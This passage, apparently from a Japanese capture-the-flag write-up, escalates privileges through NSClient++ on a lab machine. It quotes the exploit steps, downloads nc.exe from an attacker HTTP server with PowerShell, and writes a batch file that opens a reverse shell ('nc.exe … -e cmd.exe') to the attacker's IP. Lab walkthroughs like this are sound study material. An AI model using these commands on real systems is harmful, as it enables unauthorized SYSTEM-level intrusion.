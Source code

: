 ```
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system
	
Risk:
The vulnerability allows local attackers to escalate privileges and execute arbitrary code as Local System
```
この時点で1の手順をクリアしていることが分かります。また2の手順もすでにenableになっていることが確認できます。
次に3の手順を行います。

```
kali@kali:~$ locate nc.exe
kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe /home/kali/
```

サーバを立てて、nc.exeをダウンロードできるようにしましょう。

```
kali@kali:~$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

次にkaliで立てたサーバからpowershellを用いてnc.exeをダウンロードします。

```
nadine@SERVMON C:\Temp > powershell Invoke-WebRequest "http://10.10.14.20:4444/nc.exe" -OutFile c:\temp\nc.exe
```

nc.exeを起動できるようにbatファイルを作成します。

```
nadine@SERVMON C:\Temp > echo "@echo off" > evil.bat
nadine@SERVMON C:\Temp > echo c:\Temp\nc.exe 10.10.14.20 443 -e cmd.exe >> evil.bat
```
